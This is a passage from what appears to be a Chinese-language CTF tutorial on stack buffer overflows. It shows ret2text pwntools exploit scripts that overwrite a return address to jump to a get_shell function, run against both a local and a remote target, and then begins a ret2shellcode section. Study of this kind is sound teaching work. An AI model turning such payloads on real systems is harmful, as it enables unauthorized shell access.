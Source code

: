 这里回到 IDA 看 get\_shell 的地址，可以看到起始地址为 8048522

```plain
from pwn import *
io = process("./ret2text")
io.recvline()
payload = b'A' * 16 + b'BBBB' + p32('0x8048522')
io.sendline(payload)
io.interactive()
```

打本地成功

```plain
from pwn import *
io = remote("xx.xx.xx.xx",xxxx)
get_shell_addr = 0x8048522
payload = b'A' * 16 + b'BBBB' + p32(get_shell_addr)
io.sendline(payload)
io.interactive()
```

## ret2shellcode

```plain
shellcode 是我们自己输入的，一定要存在于缓冲区中 (栈、堆、BSS)
(但是堆默认 malloc 到的没有可执行权限)
```

[![](assets/1701612384-6169d20e7f66cd2ddc3d57ff11d9fcc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202943-9ff1034c-1678-1.png)
